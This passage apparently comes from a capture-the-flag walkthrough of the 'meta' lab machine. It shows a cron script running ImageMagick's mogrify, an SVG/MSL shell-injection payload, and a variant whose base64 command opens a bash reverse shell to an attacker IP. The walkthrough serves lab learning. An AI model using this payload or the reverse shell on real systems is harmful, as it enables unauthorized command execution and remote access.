 ```
2022/03/31 22:46:01 CMD: UID=1000 PID=10175  | /bin/sh -c /usr/local/bin/convert_images.sh 
2022/03/31 22:46:01 CMD: UID=1000 PID=10176  | /usr/local/bin/mogrify -format png *.* 
2022/03/31 22:46:01 CMD: UID=1000 PID=10177  | pkill mogrify 
```

Now, we will check what /usr/local/bin/convert_images.sh is doing. From the script, we can see that the script will convert the images in /var/www/dev01.artcorp.htb/convert_images and convert it into png image.

```
www-data@meta:/usr/local/bin$ cat convert_images.sh
cat convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

With some research, we know that mogrify is part of the ImageMagick suite of tools and so, mogrify should be vulnerable to the ImageMagick exploits as well. 

Let us first try to use the payload from [here](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) to create a vulnerable svg payload and try to write the output of ```id``` to a file (NOTE: This only works for writing files to /dev/shm directory not the /tmp directory)

```
<image authenticate='ff" `echo $(id)> /dev/shm/exploit`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Afterwards, we will upload the vulnerable svg payload to the /var/www/dev01.artcorp.htb/convert_images/ directory and the output of id will be written to the file named exploit. From the output, we can also see that we are now running the convert_images.sg script with the privileges of thomas

```
www-data@meta:/dev/shm$ cat exploit
cat exploit
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

### Obtaining user flag

We will now slightly modify the payload to create a reverse shell with the privileges of thomas. 

```
<image authenticate='ff" `echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zLzIwMDAgMD4mMQ== | base64 -d | bash > /dev/shm/exploit`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
